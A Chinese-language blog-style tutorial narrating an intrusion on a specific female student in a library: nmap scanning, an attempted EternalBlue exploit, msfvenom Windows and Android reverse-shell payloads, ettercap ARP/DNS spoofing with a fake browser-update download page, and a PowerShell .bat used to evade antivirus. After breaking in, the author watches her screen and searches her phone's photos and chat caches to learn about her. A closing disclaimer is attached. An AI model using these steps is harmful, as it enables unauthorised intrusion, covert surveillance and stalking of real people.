# 内网渗透实战教程：一次图书馆渗透的完整流程 🏛️💻


在本教程中，我们将学习一次模拟的内网渗透实战过程。整个过程从环境分析开始，到信息收集、漏洞利用、木马生成与免杀，最终实现权限维持。我们将使用简单的语言和清晰的步骤，让初学者也能理解内网渗透的基本思路和常用工具。

## 环境分析 🧐

上一节我们介绍了本次渗透的背景，本节中我们来看看如何对目标环境进行分析。做任何事情，首先需要确立目标。当时我对环境做了一个简单的分析，最后总结了以下三点。

以下是环境分析的三个关键点：

1.  **图书馆有路由（Wi-Fi）**：在互联网上有很多设备，每个设备都有自己的IP地址。在互联网中找到一台特定电脑的IP地址几乎不可能。但有了路由就不一样。当设备连上路由后，路由会自动分配一个内网IP地址，例如 `192.168.x.x`。我进入图书馆后，找到了这个路由。我抱着笔记本坐到了目标后面，也就是说我可以窥屏。当时我已经确认目标的电脑连上了Wi-Fi。我只需要把我的电脑连上同一个路由，就可以扫描网段内存活的IP，再使用其他方法确定目标的内网IP地址。
2.  **目标人物穿着校服，抱着笔记本查资料**：这个信息的作用是，我看到她带了笔记本。当时我想，这台笔记本内是不是有一些简历或报名表之类的文本文档。或许我可以在她的电脑里找到手机号或微信等联系方式。
3.  **我的设备带了笔记本，并安装了Kali Linux**：这不一定要用Kali才能做这些事。比如你用Ubuntu系统，然后安装这些工具，同样可以做这些事情。



## 信息收集：确定目标IP 🎯





分析完环境后，我们刚才说了，第一步是确定目标的IP地址。这里就说到了内网的神器——`nmap`。

我用了两条命令。第一条是 `-sP` 参数，后面跟的是 `192.168.1.0/24`。这条命令是扫描网段内存活的主机，也就是扫描0到255中哪些数字是存在的。当然，你也可以用 `ping` 命令一个一个去测试。





首先，查看我自己的IP地址。我当前的IP地址是 `192.168.1.103`。



我们直接输入命令 `nmap -sP 192.168.1.0/24`。这里扫描出来存活的IP地址有：
*   `192.168.1.1`：这是我的路由地址，也就是网关。
*   `192.168.1.101`：这是我的一台Win7实体机。
*   `192.168.1.103`：这是我这台Kali的IP地址。





那么，我们怎么样从这几个IP去确定哪个是我们目标的IP地址呢？这里使用了一个 `-O` 参数。这个参数是判断目标主机的操作系统版本。







当时由于开馆不久，馆内人不是很多。当时除了目标的一台Win7（不要问我怎么知道的，我刚才说了我可以窥屏）、我的一台Kali笔记本、图书馆前台的一台Win10电脑，其他的就是一些安卓或苹果手机。这样的话，我只要使用 `-O` 参数去判断哪个IP使用的是Windows 7操作系统，我就可以确定哪个是我们目标的IP地址。





当然，如果馆内设备过多，你也可以用抓包工具去抓取数据包。

`-O` 参数最后检测出 `192.168.1.101` 这个IP地址使用的是Win7操作系统。我从而可以判断 `192.168.1.101` 是我们目标的IP地址。



## 漏洞探测与利用尝试 ⚔️



好，那么确立了目标以后，我们接下来需要做的是什么？一般我们搞渗透，都是从Web端入手，也就是80端口服务。但是我们一般家用或个人的电脑，是不会开放80端口服务的。那么我们只能从其他的一些端口入手。接下来需要做的就是探测端口服务，寻找相应的漏洞进行尝试。

`nmap -O` 参数会顺带去探测操作系统开放的端口。这里有一个445端口是 `open` 状态，也就是开放的。看到这个端口，我想起了前段时间很火的“永恒之蓝”漏洞。我就用MSF（Metasploit Framework）去加载永恒之蓝的利用模块，然后去配置它的参数，进行漏洞尝试。


当然，最后是失败的。因为我到后面知道了他这台电脑是装了360的，这个360会自动下载补丁。



同样，对其他端口对应的漏洞也进行了一些尝试。最后都没有成功。这就很尴尬了。我想了想，既然我主动出击，针对这些端口相应的漏洞去入侵，这些利用都没有成功，那么我是不是可以去生成一个木马，然后通过某些手段去诱导我们的目标下载我们的木马，并且运行我们的木马？然后这个木马返联，向我们这台Kali机器发起请求，去建立这么一个会话，去控制它的电脑。





## 木马生成与监听设置 🐎

这是MSF生成木马的大概流程。当然，这里不只是说只能用MSF去生成。比如前几年很火的一些灰鸽子、大灰狼等远控，如果你还可以用，你也可以用这些软件去生成木马。

第一条命令是使用 `msfvenom`，`-p` 是指定payload，然后是 `windows/x64/meterpreter/reverse_tcp`，使用的是TCP反连的载荷。然后设置它反连的IP地址和端口，`-f exe` 把它输出为exe格式的木马文件。这里可以指定它的输出路径。我这里把它输出到 `/root` 目录下的test文件夹，保存为 `test.exe` 的木马。你也可以不指定路径，默认是保存在 `/root` 目录下。

具体命令如下：
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f exe -o /root/test/test.exe
```

然后生成木马以后，我们去启动MSF，然后去载入模块，去设置监听的IP地址和端口，然后去载入payload，开始监听。

这一步也就是说，当我们的目标去下载并且运行我们的这个exe木马以后，这个木马会向我们预设的IP地址和端口发起TCP请求。那么我们在这台Kali设置的监听，监听到有这个请求进来以后，会去建立这么一个会话。我们通过这个会话可以去控制这台电脑。

这些步骤没有特定的顺序。除了载入模块，接下来这几步没有一个特定的步骤，你先去设置payload也可以，先去设置它的IP地址或端口也可以。

## 社会工程学：DNS劫持与诱导下载 🎣

好，那么接下来的一个问题就是如何让目标去下载并且运行我们的木马。我这里想到了一个DNS劫持。这个DNS劫持，如果不知道的话，可以去百度一下，我这里就不再去说了。



这个DNS劫持，首先我们需要去修改 `/etc/ettercap` 目录下的 `etter.dns` 文件。我们需要修改的就是这一段。我们针对的是Windows系统的DNS劫持，那么我们在这里添加两条记录。星号代表所有域名，也就是我们开启这个劫持以后，无论目标访问哪个站点，都会跳到我们的 `192.168.1.103` 这台机器。我们这里是添加了一条A记录和PTR记录，后面是指向的地址。



修改完这个文件以后，我们需要去启动Apache服务器。为什么要启动Apache服务器？因为我的想法是，我使用DNS劫持，当目标无论访问哪个站点，比如访问淘宝，它都会跳转到我的 `192.168.1.103`，也就是这台Kali机器。如果我不去开放80端口服务，也就是说它无法从浏览器直接访问到我这台机器的Web根目录下的首页文件。我把生成的木马复制到这个目录下，然后去修改HTML的代码，让它跳出提示，比如“浏览器版本过低，需要更新以后才可以继续使用”，然后跳出我们的木马下载界面，去诱导目标下载。如果我们不去启动Apache服务器，那么他是没办法直接通过浏览器访问到我们这个文件的。

启动Apache：
```bash
service apache2 start
```





启动以后，我们可以去访问一下 `http://192.168.1.103`，这里是可以访问到这个站点的。比如我们访问 `1.html`，它会弹出这样的一个界面。然后这个 `test.exe` 就是我们生成的木马。







我们启动Apache以后，使用 `cp` 命令把 `test.exe` 这个木马移动到我们的Apache站点的根目录下。
```bash
cp /root/test/test.exe /var/www/html/
```



然后使用到一个工具——`ettercap`。这个工具是内网经常用到的工具，可以做ARP欺骗、DNS欺骗或中间人攻击，功能比较强大。它有命令行界面和图形化界面。我为了我的键盘寿命，这里使用图形化界面，`-G` 开启它的GUI界面。
```bash
ettercap -G
```



开启以后，我们选择第二个选项，然后选择第一个。这里他会让我们去选择网卡。我这一台的网卡是 `eth0`，我这里选择这个网卡。然后我们再选择 `Hosts` -> `Scan for hosts` 进行主机扫描。它这里扫描出来有三个主机。我们再选择 `Hosts` -> `Hosts list`。`1.1` 是网关地址，`101` 是我们的目标。我们这里把目标添加到 `Target 1`，然后把网关添加到 `Target 2`。然后我们再来到 `Mitm` -> `ARP poisoning`。我们这里选择第一个，也就是监听本地连接。然后我们需要使用到一个插件，我们选择 `Plugins` -> `Manage plugins`。我们这里需要用到 `dns_spoof` 插件。我们双击这个插件，它前面会显示一个星号。然后我们点击 `Start` 开启监听。





这时候我们可以用我们的一台Win7，也就是我们这台目标靶机，来ping一下百度的IP。它这里显示的是来自 `192.168.1.103` 的回复。我们都知道，百度的IP不可能是这个。这个是我们攻击机器的IP地址，也就是这台Kali的IP地址。同样我们也可以ping一下淘宝，同样它也是显示来自 `192.168.1.103` 的回复。也就是说，无论你访问哪一个站点，最后都会跳到我们的攻击机器，也就是跳到我笔记本的Kali机器。



这样的话，也就是说我们已经劫持成功了。当他打开浏览器，无论去访问哪个站点，最后都会跳到我们的 `http://192.168.1.103:80`。然后我去改一下首页的源代码。这是春秋论坛上的一个脚本，和我这个也是同样的。你去春秋论坛找一下。它这里是使用HTML和JavaScript代码写的这么一个页面，也就是弹出木马下载的界面。



我当时是看到了他下载了我这个木马，并且运行了我的木马，我就继续看我的笔记本，等他的返联请求。但是我等了很久，这里一直没有返联。那么我就很郁闷。然后我又窥了一下屏，看到他右下角这里有一个360的图标。那么我们直接生成的木马，是会被360查杀的。这就很尴尬了。



## 免杀技术：绕过安全软件 🛡️



接下来我就是对这个木马做了一个免杀。当时的话是用了 `Veil-Evasion`。这是一个开源的免杀工具，利用动态的shellcode注入来实现免杀效果。你可以去它的官网看一下。这里有一篇关于Veil-Evasion利用的文章。我前几天测试的话，发现这一个应该是不行了。

我这里就再说一种方法，除了这些免杀工具，我们也可以用PowerShell来做免杀。这个PowerShell因为一些特征，它会被杀软所忽视。我这里用了一个脚本，这里是原作者的GitHub地址。Kali的话，你可以使用这条命令去下载它的项目。

具体命令如下（示例项目，需替换为实际可用项目）：
```bash
git clone https://github.com/example/powershell-empire.git
cd powershell-empire/setup
./install.sh
```

它有一个payload的选择。我们选择 `powershell` 这个选项。也就是第六个选项。我们这里还是用它的一个TCP反连的载荷，输入我们反连的IP地址和端口。设置完这些参数以后，它会去生成一段PowerShell的代码。





它这里是生成了这么一段PowerShell的代码。然后它会去启动MSF，然后去设置一个监听选项，也就是和我们这个差不多的步骤。然后我们把这一段PowerShell的代码复制。

怎么去利用这段代码？这个我们一般都是拿到命令提示符，然后直接粘贴到这里，然后去执行这段PowerShell代码的。但是当时是没有办法直接拿这段PowerShell代码到我们目标的机器去执行。我不可能说过去，然后说“你电脑借我用一下”，然后把这段代码搞过去运行。

我想了想，决定把这个PowerShell的代码，把它保存为一个 `.bat` 格式的文件。我打开了文本编辑器，然后保存为 `1.bat`。然后用同样的方法，把这个复制到我们的Apache站点的根目录下，然后再把HTML的代码改一改，然后用同样的步骤，去诱导目标去下载这个 `.bat` 文件。当它运行这个BAT以后，也就是说执行了我们这段PowerShell的代码。

这里是已经开始了监听。我们直接运行这个 `1.bat`。这个使用PowerShell反连的话可能会很久。我这里多执行几遍。

好，那么他这里是已经成功地接收到来自 `192.168.1.101` 的请求，然后成功地建立了这么一个会话。可以看到，我这个360是开启的。这个360，刚开始说了，因为这个PowerShell的一些特性，杀软并不会去拦截它。虽然查杀这个BAT的话，它显示的是木马，但是我们去执行的话是没有问题的。

## 权限维持与横向移动 📱

建立这个会话以后，那么我们可以干的事就很多了。比如开启键盘记录、下载键盘记录、录制声音、查看或开启它的摄像头。这里有一篇详细的文章。我们也可以 `help` 查看一下。我们可以 `sysinfo` 查看它的OS信息。

当时拿到这个会话以后，我是这样去做。这个会话是有一个VNC的功能。这个VNC我就不去说这个了，详细都知道这个是干什么用的。当时我是开启了VNC，画面同步。我是看到了他在改好像是报名表的一些东西，然后上面有它的一个手机号码，然后我就截了一下屏。这样的话，我的行动是已经成功了。

当然，我不可能到这里就结束。然后我是使用了 `shell` 命令，拿到它的一个命令提示符的执行权限。一般我们的电脑都是 `administrator` 权限，这个权限就是管理员权限，很高了。当时是去看了一下他这台电脑的一些文本文档，然后去找了这些，发现并没有什么有用的东西。

我的猥琐不止如此，然后把目标打到了他的手机上。然后用同样的方式去生成了一个安卓的木马。也就是 `msfvenom -p android/meterpreter/reverse_tcp LHOST=<公网IP> LPORT=4444 -f apk -o test.apk`。然后还是去设置它的监听。然后我还是同样，这个DNS劫持当时我还是没有关闭，然后我就把我的手机关机，然后上去找他要了一下手机。然后各种忽悠，最后他是同意把这个手机借我打一个电话，然后就装模作样，把这个APK弄到了他的手机，然后运行了。当时是用公网的一台Ubuntu服务器去生成这个APK文件。也就是说，只要这个木马不被查杀，我就可以长久控制他的机器。

建立这个会话以后，我这里简单说一下。这个会话是有一个 `download` 和 `search` 功能的。我用 `search` 去搜了它的 `.jpg`、`.png` 这样子的图片文件，也就是去搜它的照片，还有一些 `.txt` 文本文档。这个手机，我是在里面找到了很多有意思的东西。我也是通过这个手机，去查找了他的QQ、微信的一些聊天缓存记录，得知了这个妹子的一些信息。

## 总结与反思 📝

本节课中我们一起学习了一次完整的内网渗透流程。我们从环境分析开始，通过 `nmap` 进行信息收集确定目标IP，尝试了端口漏洞利用（如永恒之蓝）。在直接攻击失败后，转向社会工程学，利用DNS劫持和伪造更新页面诱导目标。面对安全软件的拦截，我们使用了PowerShell进行免杀，最终成功建立反向连接。获得权限后，进行了信息收集（如文件搜索、截图），并尝试了横向移动，将控制扩展到目标手机。

**核心要点回顾：**
*   **信息收集是关键**：确定目标网络环境和IP是第一步。
*   **多种攻击路径**：直接漏洞利用失败后，社会工程学是有效的备选方案。
*   **免杀是常态**：生成的载荷往往需要处理以避免被安全软件检测。
*   **权限维持**：获得初始访问后，应考虑建立持久化控制。
*   **横向移动**：从一个点突破后，可尝试扩展到网络内的其他设备。

**重要声明**：本教程所述技术仅用于安全学习和研究目的。未经授权对他人计算机系统进行渗透测试是违法行为，切勿在真实环境中进行非法测试。